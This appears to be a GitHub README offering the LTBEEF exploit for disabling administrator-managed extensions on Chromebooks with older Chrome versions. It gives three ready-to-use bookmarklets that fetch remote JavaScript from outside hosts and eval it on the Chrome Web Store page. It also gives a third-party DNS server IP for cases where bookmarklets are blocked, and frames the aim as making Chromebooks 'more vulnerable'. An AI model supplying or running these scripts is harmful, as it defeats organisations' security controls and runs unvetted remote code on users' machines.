 # How to mod the chromebooks!
Making Chromebooks more vulnerable, one commit at a time.
Huge thanks to 3kh0 for alot of vulnerability's.
# LTBEEF
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.
Please Note: This exploit only works on versions below 106, and eariler versions of 102

The original site created for this exploit can be found at ltbeef.netlify.app

Installation
There are several vesions of this exploit you can use, here are the 2 most common versions:

Bookmarklets
To use a GUI, bookmark one of the below scripts:

Ingot
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
Compact Cow's UI
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
Compact Cow's UI (Dark)
javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!

DNS servers
By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.

First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers" image
Set every box there to the following ip:
158.101.114.159 (Hosted by The Greatest Giant#0110)
Navigate to https://chrome.google.com/webstorex and click on that bookmark. Flip the switches on the extentions you want to disable.
